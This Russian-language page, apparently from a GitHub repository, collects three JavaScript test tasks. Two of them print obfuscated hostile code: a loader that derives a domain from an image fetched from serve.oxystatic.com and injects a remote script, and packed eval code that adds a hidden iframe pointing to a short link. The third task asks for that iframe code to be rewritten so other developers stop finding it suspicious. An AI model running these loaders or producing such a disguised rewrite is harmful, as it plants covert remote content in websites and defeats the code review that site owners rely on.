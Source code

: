 Здесь будет различная подборка тестовых заданий, которые я встречал. 


# 1) задание первое:
раздуть код 
```javascript
name='foo';alert(window.name);
```
до одного килобайта.

# 2) задание второе:
Объяснить, с какого адреса данный код
```javascript
<script type="text/javascript" id="73901220182">
(function(d,c,b,a,e){
 with(new Image)onload=function(){with(this)a.push((1E6+1E3*width+1*height+a).slice(-6).replace(/\d{2}/g,
 function(a){return"%"+(+a+97).toString(16)+c.split("")[a%6]})),a.push("com"),a=["/",unescape(a.join(".")),
 [(new Date).getTime(),b.domain,e,0].join(",")],b.body.appendChild(b.createElement(c)).src=a.join(a[0])},src=d
})("http://serve.oxystatic.com/init","script",document,[],73901220182)
</script>
```
подгрузит скрипт, и почему.

# 3) задание третье:
Почему код по ссылке
```javascript
var _0x371a=["\x30\x2E\x31\x7C\x7C\x30\x2E\x35\x28\x27\x3C\x31\x3E\x27\x29\x3B\x32\x3D\x30\x2E\x31\x2E\x36\x28\x30\x2E\x34\x28\x27\x33\x27\x29\x29\x3B\x32\x2E\x37\x3D\x27\x38\x3A\x2F\x2F\x64\x2E\x63\x2F\x62\x27\x2C\x32\x2E\x39\x2E\x61\x3D\x27\x65\x27\x3B","\x7C","\x73\x70\x6C\x69\x74","\x64\x6F\x63\x75\x6D\x65\x6E\x74\x7C\x62\x6F\x64\x79\x7C\x6E\x73\x6F\x64\x6B\x7C\x69\x66\x72\x61\x6D\x65\x7C\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74\x7C\x77\x72\x69\x74\x65\x7C\x61\x70\x70\x65\x6E\x64\x43\x68\x69\x6C\x64\x7C\x73\x72\x63\x7C\x68\x74\x74\x70\x7C\x73\x74\x79\x6C\x65\x7C\x64\x69\x73\x70\x6C\x61\x79\x7C\x31\x32\x33\x34\x35\x36\x7C\x67\x6C\x7C\x67\x6F\x6F\x7C\x6E\x6F\x6E\x65","\x5C\x62","\x67","\x72\x65\x70\x6C\x61\x63\x65"];
eval(function(_0x1019x1,_0x1019x2,_0x1019x3,_0x1019x4,_0x1019x5,_0x1019x6){while(_0x1019x3--){if(_0x1019x4[_0x1019x3]){_0x1019x1=_0x1019x1[_0x371a[6]]( new RegExp(_0x371a[4]+_0x1019x3.toString(_0x1019x2)+_0x371a[4],_0x371a[5]),_0x1019x4[_0x1019x3])}};
return _0x1019x1;}(_0x371a[0],15,15,_0x371a[3][_0x371a[2]](_0x371a[1])));
```
выглядит подозрительно?
Переписать его так, чтобы он больше не вызывал подозрений у других разработчиков.
